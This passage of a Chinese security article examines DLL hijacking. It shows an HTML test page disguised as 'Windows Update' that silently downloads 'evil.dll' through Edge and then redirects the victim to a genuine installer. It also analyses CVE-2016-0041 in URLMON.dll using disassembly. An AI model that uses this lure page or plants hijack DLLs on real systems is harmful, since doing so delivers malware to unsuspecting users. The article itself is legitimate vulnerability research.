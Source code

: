Edge 浏览器的默认下载目录为`C:\Users\<Username>\Downloads`，通过 Edge 下载的文件默认都会保存在这个目录下。可以利用 Edge 的自动下载漏洞下载一个恶意的 DLL 文件（如Version.dll ）到这个目录下，然后利用页面超时自动跳转功能让 Edge 跳转到正常页面来诱导用户下载一个正常的安装文件，当用户运行安装程序时恶意的 DLL 文件便会被进程加载。

测试浏览器自动下载漏洞的 HTML 测试代码如下所示：

```
<html>
    <head>
        <title>Windows Update</title>
    </head>
    <body>
        <iframe src="evil.dll"></iframe>
        <script>
            setTimeout( function () {
                    window.location = "https://get.adobe.com/reader"
                }, 5000);
        </script>
    </body>
</html>

```

在 Windows 10 下使用 Edge 打开这个 HTML 页面，可以看到 DLL 文件被自动下载到了本地的下载目录中。不过由于 DLL 没有有效的数字签名，所以 Edge 会提示这个文件可能存在风险。

![p2](http://drops.javaweb.org/uploads/images/aaec09e8f3e387c3bd869762b826d3be4e671640.jpg)

如果 DLL 文件具有有效的数字签名，那么 Edge 就不会这样提示了。在最新版本的 GoogleChrome （ 48.0.2564.116 m ）上测试发现，不管 DLL 是否具有有效的数字签名， DLL 文件下载之后都需要用户手工确认才会保存，否则会被删除。 Chrome 和 Edge 的测试结果汇总如下：

![p3](http://drops.javaweb.org/uploads/images/a91b37833d07422321efb75f23e95fac108e5021.jpg)

浏览器的自动下载漏洞还是十分危险的，攻击者甚至只需要诱导用户下载一个恶意的 DLL ，以后用户在下载目录中执行各种程序时都有可能加载这个 DLL 。此外，安装程序一般都会请求管理员权限，对于恶意的 DLL 来说管理员权限似乎是与生俱来的。

0x02 非典型漏洞 CVE-2016-0041 分析
=====

微软安全公告 MS16-014 中的描述表明其修复了一个 CVE-ID 为 CVE-2016-0041 的 DLL 劫持漏洞。漏洞详情为： Windows 10 下的 URLMON.dll 文件存在加载 phoneinfo.dll 的代码，而 Windows 10本身并不携带这个 phoneinfo.dll 文件，并且在查找 DLL 时使用的是标准的目录搜索顺序，所以这里会导致 DLL 劫持漏洞。这个漏洞的独特之处在于其存在于操作系统本身，所以在 Windows 10下，只要是调用了 URLMON.dll 中能够触发漏洞代码的 API 的软件都会受到这个漏洞的影响。笔者在 2015 年底也发现了也发现了这个漏洞，同时确认 Foxit Reader 7.2.8.1124 受到该漏洞的影响，并将其报告给了 Foxit Software 。

### 2.1 漏洞分析

在发现这个漏洞时，笔者发现网上很少有关于 phoneinfo.dll 文件的介绍，只有[@tombkeeper](https://twitter.com/tombkeeper)在**Sexrets of LoadLibrary**中提到了这个文件。 TK 指出 IE11 running on Windows 10 TP 9926 会尝试加载 phoneinfo.dll ，而 IE 的当前目录就是桌面，所以如果放一个 phoneinfo.dll 到桌面上的话，在启动 IE 时这个 DLL 便会被加载。

Greg Linares 在 SRT-VR-24DEC2015 中指出 Windows10 的 URLMON.dll 中存在两处加载phoneinfo.dll 的地方，可能是 DLL 文件的版本不一样，笔者找到的代码与之存在一些细微差异。笔者在分析 11.0.10240.16384 版本的 URLMON.dll 时找到的反汇编代码如下所示：

*   下面的代码位于**BuildUserAgentStringMobileHelper**中：
    
    ```
    .text:1A4636A1 loc_1A4636A1:
    .text:1A4636A1 mov eax, pfnQueryPhoneInformation
    .text:1A4636A6 mov [ebp+pszValue], 0
    .text:1A4636AD mov [ebp+szSrc], eax
    .text:1A4636B3 test eax, eax ;  判断 eax 寄存器的值是否为 0
    .text:1A4636B5 jnz loc_1A48FC97 ;  如果不为 0 则跳转
    .text:1A4636BB push eax ; dwFlags = 0
    .text:1A4636BC push eax ; hFile = 0
    .text:1A4636BD push offset aPhoneinfo_dll ; "phoneinfo.dll"
    .text:1A4636C2 call ds:__imp__LoadLibraryExW@12 ; LoadLibraryExW(x,x,x)
    .text:1A4636C8 test eax, eax
    .text:1A4636CA jnz loc_1A48FC78
    